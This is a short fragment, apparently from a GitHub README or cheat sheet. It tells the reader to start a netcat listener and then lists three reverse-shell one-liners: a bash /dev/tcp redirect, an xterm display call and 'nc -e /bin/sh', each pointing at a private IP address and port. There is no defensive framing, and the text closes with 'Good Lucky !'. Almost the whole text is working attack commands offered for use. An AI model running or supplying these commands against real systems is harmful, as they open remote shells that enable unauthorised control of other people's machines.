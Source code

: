 To use any reverse shell here, open a connection on your machine: nc -lvnp 4444

Some variables you can try when it comes to reverse shell:

> bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
> xterm -display 192.168.0.5:4444
> nc -e /bin/sh 192.168.0.5 4444



Good Lucky !

